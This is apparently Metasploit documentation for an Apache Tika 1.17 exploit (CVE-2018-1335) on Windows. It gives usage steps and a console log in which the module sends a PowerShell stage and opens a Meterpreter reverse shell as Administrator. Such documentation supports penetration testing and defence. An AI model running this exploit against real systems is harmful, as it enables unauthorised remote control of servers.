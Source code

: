 ## Vulnerable Application

  This module works against Windows installations of Apache Tika 1.17, and was successfully tested on
  1.17.  Apache Tika can be downloaded from [here](https://archive.apache.org/dist/tika/), and requires Java to be installed.
  While the vulnerability is reported in more versions, exploitation was only successful against 1.17.

  Rhino Security Labs has an Excellent write-up describing this vulnerability.  Find it on
  [rhinosecuritylabs.com](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/) or
  [wayback](https://web.archive.org/web/20190314101650/https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploits/windows/http/apache_tika_jp2_jscript```
  4. Do: ```run```
  5. You should get a shell.

## Scenarios

### 1.17 on Windows 2012 running as Administrator

```
resource (tika.rb)> use exploits/windows/http/apache_tika_jp2_jscript
resource (tika.rb)> set rhost 2.2.2.2
rhost => 2.2.2.2
resource (tika.rb)> set verbose true
verbose => true
resource (tika.rb)> check
[*] Apache Tika Version Detected: 1.17
[+] 2.2.2.2:9998 - The target is vulnerable.
resource (tika.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Powershell command length: 2278
[*] Sending PUT request to 2.2.2.2:9998/meta
[*] Sending stage (179779 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:49313) at 2019-03-28 21:33:09 -0400

meterpreter > getuid
Server username: WIN-OBKF2JFCDKL\Administrator
meterpreter > getpid
Current pid: 1552
meterpreter > sysinfo
Computer        : WIN-OBKF2JFCDKL
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
